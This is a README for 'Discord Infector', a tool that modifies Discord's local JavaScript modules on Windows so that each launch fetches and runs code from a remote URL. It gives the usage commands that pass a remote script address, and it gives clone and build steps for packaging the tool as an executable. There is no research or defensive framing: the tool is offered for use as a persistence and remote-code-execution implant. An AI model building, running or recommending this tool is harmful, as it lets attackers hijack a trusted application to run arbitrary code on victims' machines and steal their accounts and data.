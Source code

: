 # Discord Infector

This tool allows you to modify some of Discord's data files on Windows to run arbitrary code every time Discord is launched.

## Usage

You can download the release binary from releases and use it with `.\DiscordInfector.exe https://example.org/examplescript.js`
This will attempt to patch one of your Discord AppData Javascript modules to execute a file that will attempt to grab the script at the specified address and execute it.


## Building

To build the tool yourself, you will need the following installed:
- NodeJS 10+
- NPM or an NPM compatible package manager
- pkg

pkg can be installed with `npm install -g pkg`.

The steps to build the tool are as followed.
1. `git clone https://github.com/7urb01/discord-infector.git`
2. `cd discord-infector`
3. `npm install`
4. `npm run build`

The resulting build will be at `DiscordInfector.exe`.
If you would like to run it without building it you can run `node index.js https://example.org/examplescript.js`.
